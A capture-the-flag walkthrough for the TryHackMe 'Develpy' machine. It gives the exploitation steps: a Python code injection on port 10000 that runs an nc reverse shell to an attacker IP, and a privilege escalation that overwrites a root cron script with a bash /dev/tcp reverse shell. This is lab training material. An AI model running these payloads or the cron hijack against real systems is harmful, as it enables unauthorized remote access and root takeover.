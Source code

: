 # [Develpy](https://tryhackme.com/room/bsidesgtdevelpy)

## boot2root machine for FIT and bsides Guatemala CTF

# Develpy

## read user.txt and root.txt

### user.txt

1. First scan the ports to see what we can do

```Bash
nmap -p- <IP>
```

![SCREEN01](https://github.com/user-attachments/assets/37d58aae-53e4-4937-8ab9-e5d9ace93f65)

2. Port 10000 is not your standard endpoint. So let's capture it with netcat

![SCREEN02](https://github.com/user-attachments/assets/45e8f7e8-d455-4b15-83f9-485747f543a7)

```Bash
nc <IP> 10000
```

![SCREEN03](https://github.com/user-attachments/assets/74950243-7ff8-4f74-aacf-7ac0b5625544)

3. This is a python script so let's set up another listener and reverse shell

```Bash
nc -lvnp 4444
```

```Python
__import__("os").system("nc -e /bin/sh 10.10.202.50 4444")
```

```Bash
whoami
python -c 'import pty; pty.spawn("/bin/bash")'
cat user.txt
```

![SCREEN04](https://github.com/user-attachments/assets/0f3e592c-ca87-4109-ae99-3767e657dbdb)

### root.txt

1. In our starting directory, there are two interesting files to examine: `run.sh` and `root.sh`

```Bash
ls -la
cat run.sh
cat root.sh
```

2. The `root.sh` file is being executed by a cron job with root privileges, but we have permission to delete it and replace it with our own reverse shell script

![SCREEN05](https://github.com/user-attachments/assets/70a561d4-fa77-4bbd-ac67-6fae5f3ba628)

```Bash
rm -f root.sh
echo 'bash -i >& /dev/tcp/10.10.202.50/5555 0>&1' > root.sh
chmod +x root.sh
```

3. Now set up a listener on our machine and wait for the cron job to execute our script

```Bash
nc -lvnp 5555
cat /root/root.txt
```

![SCREEN06](https://github.com/user-attachments/assets/2125edf3-adde-4e0a-8ee9-72ae0436a867)
